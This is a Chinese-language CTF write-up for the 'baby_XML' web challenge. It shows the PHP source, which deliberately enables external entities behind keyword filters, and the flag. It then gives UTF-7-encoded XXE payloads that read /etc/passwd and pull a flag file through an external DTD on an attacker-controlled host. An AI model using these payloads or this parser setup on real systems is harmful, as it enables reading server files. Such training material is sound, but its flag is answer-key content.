


* 题目名称： baby_XML
* 题目类型： WEB
* 题目难度： 中等
* 出题人： S1mh0
* 考点：有过滤的XXE
* 描述：可扩展标记语言就是最牛逼的！漏洞？没有的事！
* flag：XSCTF{y00000u_r_9o0o0o0o0o0d_4t_XxE}
* Writeup：

源码

```php
<?php
    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
   if(empty($xmlfile))
    {
        echo "need xmlfile to post";
    }
    else
    {
        if (preg_match('/(\<\!DOCTYPE|\<\!ENTITY)/gis', $xmlfile))
        {
            die('not this way, sir');
        }
        if (preg_match('/php|filter|expect|glob|phar|host|encode|decode|conf|\%/is',$xmlfile))
        {
            die("bad word!");
        }
    }
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;
?>
```
有回显XXE，但是加了过滤，主要考查XXE编码绕过以及含`<>`字符串的文件读取，首先第一个if判断过滤了常规的xml文件格式，可以通过UTF-7或者UTF-16编码转换进行绕过，第二个if禁用了一些常见的协议，让选手老老实实用file和http协议打，并且禁止读php源码

由于flag文件是被`<>`包含住的，因此需要通过CDATA 配合外部DTD文档引入来读取，但是存放flag的位置需要靠读取passwd文件获得，CDATA无法直接读取/etc/passwd文件，需要直接通过DTD外部实体声明去读取，因此做题思路是：

1、利用编码绕过，直接通过DTD外部实体声明去读取/etc/passwd文件，获得flag位置，但是发现无法读取flag；

```xml-dtd
<?xml version="1.0" encoding = "utf-7"?>
+ADwAIQ-DOCTYPE a +AFs							  
	+ADwAIQ-ENTITY b SYSTEM +ACI-file:///etc/passwd+ACI +AD4
+AF0APg
+ADw-x+AD4AJg-b+ADsAPA-/x+AD4-
```



2、利用编码绕过，通过CDATA 配合外部DTD文档引入来读取flag文件

```xml-dtd
<?xml version="1.0" encoding = "utf-7"?>
+ADwAIQ-DOCTYPE root +AFs
+ADwAIQ-ENTITY +ACU start +ACIAPAAhAFs-CDATA+AFsAIgA+
+ADwAIQ-ENTITY +ACU go SYSTEM +ACI-file:///fl4444449g+ACIAPg
+ADwAIQ-ENTITY +ACU end +ACIAXQBdAD4AIgA+
+ADwAIQ-ENTITY +ACU dtd SYSTEM +ACI-http://vps/evil.dtd+ACIAPg +ACU-dtd+ADs
+AF0APg 
+ADw-root+AD4AJg-all+ADsAPA-/root+AD4-
```

evil.dtd：

```dtd
<!ENTITY all "%start;%go;%end;">
```




